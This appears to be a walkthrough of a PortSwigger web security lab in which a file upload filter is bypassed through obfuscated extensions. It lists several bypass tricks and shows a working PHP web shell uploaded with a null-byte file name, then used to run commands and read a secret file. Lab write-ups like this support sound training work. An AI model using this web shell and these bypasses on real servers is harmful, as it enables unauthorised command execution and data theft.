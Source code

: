 ## Welcome, my friend. Today we will start the [5. File Upload lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension) in ```portswigger```

# Explain this Scenario:

## Obfuscation of file extensions

#### Even the most comprehensive blacklists can be bypassed using classic obfuscation techniques. Let's discuss these methods and add real-life examples to illustrate how to exploit:

### 1. Distortion by case sensitivity

#### If the site verifies extensions using a case-sensitive function, such as the php extension check, a file with the ```pHp``` extension can be uploaded to bypass this check.


### 2. Provide multiple extensions

#### Some servers may only use the first algorithm, causing the ```exploit.php.jpg``` file to be executed as a PHP file.


### 3. Add subsequent characters

#### If the server ignores the last point, a file with ```exploit.php.``` extension can be uploaded. To bypass filters.


### 4. Use URL encoding

#### If the verification system does not decode %2E, but the server does, the ```exploit%2Ephp``` file can be uploaded to be executed as a PHP file.


### 5. Add semicolons or zero bytes encoded in the URL

#### The ```exploit.asp;.jpg``` or ```exploit.asp%00.jpg```  file can bypass checking if a semicolon is considered the end of the file name.


### 6. Use multibyte Unicode characters

##### The ```exploit%C0%2Ephp``` file can bypass checking if xC0 x2E is parsed as a point after normalization.


### Other defenses: Remove or replace dangerous extensions

#### The ```exploit.p.phphp``` file can become a valid file after removing .php as exploit.p.php.

##### These techniques are just a few of the many possible ways to obfuscate file extensions. Feel free to ask for any additional details or clarifications you need!





--------------



# Let's play this lab:


![image](https://github.com/user-attachments/assets/d5704a2f-4fc3-46ef-828b-0a75a70f7f38)


#### Let's log in to your own account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/1b7229a1-3813-48f9-b6f0-0dcc0d603e78)


#### Let's create a php malicious payload in file ```tor.php```:

### within tor.php:

```
<?php
    echo system($_GET["tor"]);
?>
```

![image](https://github.com/user-attachments/assets/295203de-7776-489e-b02f-df7db4e826ee)

### Now, Let's upload this malicious payload to server.


![image](https://github.com/user-attachments/assets/25477564-531f-470b-969c-42376ed23c34)

#### Hmm ,Sorry! REALY?

### ok Let's open the burp tool to explore what happen.

![image](https://github.com/user-attachments/assets/9b40afc8-375c-4bcc-ac72-65cb7eb4b69f)


#### Ok, Server want ```jpg``` or ```png``` only and deny ```php```:
#### Change file name to ```tor.php.jpg```


![image](https://github.com/user-attachments/assets/9c7e8251-48d4-4425-a888-0dc988ca0ae9)

![image](https://github.com/user-attachments/assets/477cb046-339c-43da-a0dd-67c940fd7d83)


#### WOW! The file has been uploaded successfully.

### From Task 1, we explore that our file is within this path ```/files/avatars/file_name?parameter=command``` like this:

```
/files/avatars/tor.php.jpg?tor=id
```

![image](https://github.com/user-attachments/assets/517288f7-ad49-4665-a938-3c7f433b14dd)


#### Well, my friend, the server tells us that this image has errors because it does not have image content, but rather contains our malicious file, so we want to evade the image extension.

### We using ```Null Byte``` , We retry upload this file but change file name to ```tor.php%00.jpg```

![image](https://github.com/user-attachments/assets/e71a5b85-0fb3-48b1-a844-79918eb3bbf5)

![image](https://github.com/user-attachments/assets/26aabacd-02fb-437c-9204-51d926d0a6a2)


### Well done! Let's run our file.


```
/files/avatars/tor.php?tor=id
```

![image](https://github.com/user-attachments/assets/21083ab7-6bac-455e-a05f-9b21123055b0)



#### Ok this task requrie reach to /home/carlos/secret file.

```
/files/avatars/tor.php?tor=cat /home/carlos/secret
```

![image](https://github.com/user-attachments/assets/fd63dedf-1118-454f-88e1-609eb4dc3706)


#### alert: this secret is douple, copy single secret only.
### Let's Submit this secret using the button provided in the lab banner. 

![image](https://github.com/user-attachments/assets/1f83998c-d931-4b2f-8695-8d8ade1b58cb)

## Then ...

![image](https://github.com/user-attachments/assets/c4cc9fa3-3d1a-4598-8fea-3f9c967d395d)


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/a5d3c81a-277e-4ba4-a390-66e015fe0cde" >
</p>















